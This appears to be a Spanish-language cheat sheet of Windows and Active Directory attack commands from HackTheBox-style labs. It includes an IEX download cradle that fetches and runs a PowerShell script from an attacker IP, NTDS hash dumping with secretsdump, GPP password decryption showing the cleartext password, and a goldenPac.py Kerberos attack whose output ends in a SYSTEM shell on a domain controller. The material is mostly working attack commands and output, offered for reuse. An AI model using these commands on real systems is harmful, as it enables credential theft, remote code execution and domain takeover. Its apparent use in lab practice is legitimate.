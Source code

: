 ### Iniciar servicio

```
sc start userlogger C:\Users\Administrator\Desktop\root.txt:
```

## Obtener contenido ADS

```
more < C:\Users\Administrator\Desktop\root.txt:flag.txt
```

## Dumpeo de hashes NT

```
impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
```

## Obtener procesos por Identificador

```
PS C:\Windows\Temp> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10/Get-WinEventData.ps1')
```

```
PS C:\Windows\Temp> Get-WinEvent -FilterHashtable @{Logname='security';id=4688} -MaxEvents 10 | Get-WinEventData
```

## Decrypt groups.xml

```
gpp-decrypt CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ
MyUnclesAreMarioAndLuigi!!1!
```

## Golden Ticket Attack

```
goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file xvCbwVPb.exe
[*] Opening SVCManager on mantis.....
[*] Creating service Jlxr on mantis.....
[*] Starting service Jlxr.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
